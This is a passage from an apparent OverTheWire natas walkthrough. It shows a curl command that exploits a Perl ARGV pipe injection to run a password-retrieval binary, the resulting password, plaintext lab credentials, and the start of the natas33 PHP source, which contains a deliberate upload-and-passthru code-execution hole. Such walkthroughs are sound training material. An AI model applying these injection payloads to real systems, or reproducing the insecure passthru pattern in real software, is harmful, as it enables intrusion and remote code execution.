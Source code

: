 Then, we will use `cat` to get password:

```shell
curl -F "file=ARGV" -F "file=@test.csv" --user natas32:no1vohsheCaiv3ieH4em1ahchisainge "http://natas32.natas.labs.overthewire.org/index.pl?./getpassword%20|"
```

```
<h1>natas32</h1>
<div id="content">
<table class="sortable table table-hover table-striped"><tr><th>shoogeiGa2yee3de6Aex8uaXeech5eey
</th></tr></table><div id="viewsource"><a href="index-source.html">View sourcecode</a></div>
```

### natas33

```php
    <body>
        <?php
            // graz XeR, the first to solve it! thanks for the feedback!
            // ~morla
            class Executor{
                private $filename=""; 
                private $signature='adeafbadbabec0dedabada55ba55d00d';
                private $init=False;

                function __construct(){
                    $this->filename=$_POST["filename"];
                    if(filesize($_FILES['uploadedfile']['tmp_name']) > 4096) {
                        echo "File is too big<br>";
                    }
                    else {
                        if(move_uploaded_file($_FILES['uploadedfile']['tmp_name'], "/natas33/upload/" . $this->filename)) {
                            echo "The update has been uploaded to: /natas33/upload/$this->filename<br>";
                            echo "Firmware upgrad initialised.<br>";
                        }
                        else{
                            echo "There was an error uploading the file, please try again!<br>";
                        }
                    }
                }

                function __destruct(){
                    // upgrade firmware at the end of this script

                    // "The working directory in the script shutdown phase can be different with some SAPIs (e.g. Apache)."
                    if(getcwd() === "/") chdir("/natas33/uploads/");
                    if(md5_file($this->filename) == $this->signature){
                        echo "Congratulations! Running firmware update: $this->filename <br>";
                        passthru("php " . $this->filename);
                    }
                    else{
                        echo "Failur! MD5sum mismatch!<br>";
                    }
                }
            }
        ?>

        <h1>natas33</h1>
        <div id="content">
            <h2>Can you get it right?</h2>

            <?php
```